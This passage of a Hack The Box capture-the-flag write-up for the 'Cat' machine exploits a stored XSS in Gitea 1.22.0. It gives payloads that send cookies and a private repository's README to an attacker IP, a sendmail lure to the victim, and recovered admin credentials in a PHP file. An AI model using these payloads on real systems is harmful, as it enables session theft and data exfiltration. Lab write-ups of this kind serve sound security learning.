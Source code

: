 Now, I will leverage both the private repository and the Stored XSS vulnerability in `Gitea 1.22.0` to escalate access.

```Javascript
<a href="javascript:fetch('http://10.10.xx.xx:4444/?d='+encodeURIComponent(btoa(document.cookie)));">XSS test</a>
```

```Javascript
echo -e "Subject: Test Email\n\nHello, check repo http://localhost:3000/axel/samh4cks" | sendmail jobert@cat.htb
```

Next, I will create a new repository named `samh4cks` and set the description as the XSS payload.

```Javascript
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.xx.xx:4444/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

In the response, I successfully retrieved the `admin` credentials after decrypting the data.


```PHP
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
```

![Root user](/assets/images/writeups/Cat-HTB/24.png)

